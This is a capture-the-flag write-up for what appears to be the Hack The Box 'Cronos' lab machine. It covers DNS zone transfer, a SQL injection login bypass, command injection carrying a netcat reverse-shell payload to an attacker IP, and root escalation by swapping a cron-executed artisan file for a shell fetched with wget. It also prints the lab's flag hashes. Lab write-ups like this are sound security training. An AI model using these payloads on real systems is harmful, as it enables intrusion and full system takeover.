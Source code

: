 ## Initial NMAP:

```bash
┌──(parallels㉿V35HR4J)-[~]
└─$ nmap 10.129.227.211 -T4
Starting Nmap 7.92 ( https://nmap.org ) at 2023-12-26 09:40 +0545
Nmap scan report for 10.129.227.211
Host is up (0.26s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 835.53 seconds
```

## DNS Enumeration:

Since the DNS port is open, we can use `host 10.129.227.211 10.129.227.211` to ask the DNS server about itself.
```bash
┌──(parallels㉿V35HR4J)-[~]
└─$ host 10.129.227.211 10.129.227.211 
Using domain server:
Name: 10.129.227.211
Address: 10.129.227.211#53
Aliases: 

211.227.129.10.in-addr.arpa domain name pointer ns1.cronos.htb.
```

We know the nameserver is aliased to `ns1.cronos.htb` and the DNS zone it's hosting is `cronos.htb`. Let's Check for Zone Transfer:

```bash
┌──(parallels㉿V35HR4J)-[~]
└─$ host -l cronos.htb 10.129.227.211 
Using domain server:
Name: 10.129.227.211
Address: 10.129.227.211#53
Aliases: 

cronos.htb name server ns1.cronos.htb.
cronos.htb has address 10.10.10.13
admin.cronos.htb has address 10.10.10.13
ns1.cronos.htb has address 10.10.10.13
www.cronos.htb has address 10.10.10.13
```

We can see that there is a subdomain `admin.cronos.htb` which is aliased to the same IP as `cronos.htb`. Let's add this to our `/etc/hosts` file and start our enumeration over admin.cronos.htb.

## Web Enumeration:

Opening `http://admin.cronos.htb` gives us a login page. After trying things out, we can see that the login page is vulnerable to SQL Injection.
`admin'or''='` can be used to bypass the login page.

After login bypass, we can see there's a `Net Tool v0.1` in this menue which is used to execute ping or traceroute commands. Below is the request when we execute ping command:

```bash
POST /welcome.php HTTP/1.1
Host: admin.cronos.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://admin.cronos.htb
Connection: close
Referer: http://admin.cronos.htb/welcome.php
Cookie: PHPSESSID=1jj7dkulkcnpdgjfvdbrs6me27
Upgrade-Insecure-Requests: 1

command=traceroute&host=8.8.8.8
```

We can already sense command injection here, adding `;ls` after host parameter gives us the output of `ls` command. We can use this to get a reverse shell.

## Shell as www-data:

```bash
POST /welcome.php HTTP/1.1
Host: admin.cronos.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 111
Origin: http://admin.cronos.htb
Connection: close
Referer: http://admin.cronos.htb/welcome.php
Cookie: PHPSESSID=1jj7dkulkcnpdgjfvdbrs6me27
Upgrade-Insecure-Requests: 1

command=traceroute&host=8.8.8.8;rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|sh+-i+2>%261|nc+10.10.14.92+1234+>/tmp/f

┌──(parallels㉿V35HR4J)-[~]
└─$ nc -lnvp 1234 
listening on [any] 1234 ...
connect to [10.10.14.92] from (UNKNOWN) [10.129.227.211] 57076
sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

running pspy, we can see that there's a cronjob running as root on some intresting file:

```bash
2023/12/26 06:33:01 CMD: UID=0     PID=12607  | /bin/sh -c php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1 
```

The file `/var/www/laravel/artisan` is owned by www-data and we can edit the file:

```bash
www-data@cronos:/var/www/admin$ ls -la /var/www/laravel/artisan
ls -la /var/www/laravel/artisan
-rwxr-xr-x 1 www-data www-data 1646 Apr  9  2017 /var/www/laravel/artisan
```

We can replace the file with a reverse shell and wait for the cronjob to run:

```bash
┌──(parallels㉿V35HR4J)-[~/tjnull/Cronos]
└─$ ls
artisan
                                                                                                                                                                                
┌──(parallels㉿V35HR4J)-[~/tjnull/Cronos]
└─$ srv 80
Python3 HTTP server started on 10.10.14.92:80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.227.211 - - [26/Dec/2023 10:25:51] "GET /artisan HTTP/1.1" 200 -


www-data@cronos:/var/www/laravel$ rm artisan
rm artisan
www-data@cronos:/var/www/laravel$ wget 10.10.14.92:80/artisan
wget 10.10.14.92:80/artisan
--2023-12-26 06:40:51--  http://10.10.14.92/artisan
Connecting to 10.10.14.92:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2585 (2.5K) [application/octet-stream]
Saving to: 'artisan'

artisan             100%[===================>]   2.52K  --.-KB/s    in 0s      

2023-12-26 06:40:52 (486 MB/s) - 'artisan' saved [2585/2585]

┌──(parallels㉿V35HR4J)-[~/tjnull/Cronos]
└─$ nc -lnvp 1234 
listening on [any] 1234 ...
connect to [10.10.14.92] from (UNKNOWN) [10.129.227.211] 57084
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 06:41:02 up 50 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
sh: 0: can't access tty; job control turned off
# whoami
root
# find / -name user.txt -exec cat {} \; -o -name root.txt -exec cat {} \;
4d2605f80dbed7c01a2204af323d619b
0ea8f38beae622d6311a1305a5e7380e
```

# Takeaways:
- Always check for DNS Zone Transfer, it might give you some intresting information.